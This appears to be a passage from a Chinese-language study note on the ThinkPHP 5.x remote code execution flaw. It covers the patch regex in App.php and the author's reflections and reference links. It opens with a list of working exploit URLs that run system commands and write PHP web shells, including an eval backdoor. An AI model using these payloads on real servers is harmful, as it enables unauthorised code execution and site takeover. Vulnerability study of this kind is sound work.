 ```
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=/index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell2.php&vars[1][]=<?php eval($_POST[xm]);?>
```

在修复的版本中,在App.php中添加了一段正则匹配代码

```
if (!preg_match('/^[A-Za-z](\w|\.)*$/', $controller)) {
       throw new HttpException(404, 'controller not exists:' . $controller);
   }
```

开始用composer搭建的环境也莫名其妙就下到了5.0.24的版本,存在这个补丁,payload一直打不通

这个rce漏洞总的来说就是因为把控制器名字的 `\` 开头作为类名导致我们可以实例化任意类





# 后记

不过这个洞学的并不是很清楚,对一些地方的控制还是不太清楚,因为版本和网上的有些不同,部分地方代码不太一样,等后面去重新复现一下与他们相同的版本,所以感觉写的会有一些乱

学习到了断点的打法,打断点对漏洞分析真的很有用

先记下一些payload,等到后面把断点调试熟练之后再来做一遍这个洞和larave5.7的反序列化

参考链接:

http://47.100.93.13/index.php/archives/971/

https://xz.aliyun.com/t/9361#toc-7

https://xz.aliyun.com/t/8312#toc-0

